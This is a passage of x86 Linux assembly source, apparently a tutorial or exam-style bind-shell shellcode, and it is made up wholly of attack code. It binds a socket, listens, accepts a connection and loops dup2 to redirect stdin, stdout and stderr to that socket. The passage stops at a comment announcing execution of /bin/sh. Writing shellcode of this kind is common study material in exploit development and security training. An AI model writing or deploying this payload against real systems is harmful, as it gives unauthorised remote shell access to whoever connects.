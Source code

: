 ```x86asm
	push word 0x2		; sa_family_t = AF_INET
	mov ecx, esp		; move pointer to structure into ecx 

						; bind() - push args to stack
	push 0x10			; addrlen
	push ecx			; ptr socaddr *addr (on stack)
	push edi			; ptr to socket from above

	mov ecx, esp
	int 0x80		


	; listen
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx

	mov al, 0x66  		; int socketcall(int call, unsigned long *args)	;
	mov bl, 0x4			; int listen(int sockfd, int backlog)	;

	push ecx			; backlog (0)
	push edi 			; socket ptr

	mov ecx, esp
	int 0x80



	; accept
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx

	mov al, 0x66  		; int socketcall(int call, unsigned long *args)	;
	mov bl, 0x5			; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen)	;

	push ecx
	push ecx
	push edi 			; socket ptr

	mov ecx, esp
	int 0x80


	; REDIRECT I/O
	; file descriptor : fd = (stdin = 0, stdout = 1, stderr = 2)
	; Will loop through all 3 file descriptors and redirct output to socket

						 
	xchg ebx, eax		; mov file descriptor for the accepted socket to ebx

	xor ecx, ecx		; zero out ecx
	mov cl, 0x2 		; set the counter (for loop)
	
loop:					; Loop through all file descriptors
	mov al, 0x3f		; syscall: dup2 (63)  -- NOTE: eax was cleared above. Good to reduce # of instructions.
	int 0x80			; exec dup2
	dec ecx				; decrement counter
	jns loop			; jump until SF is set ; (jmp if positive)


	; Execute /bin/sh
```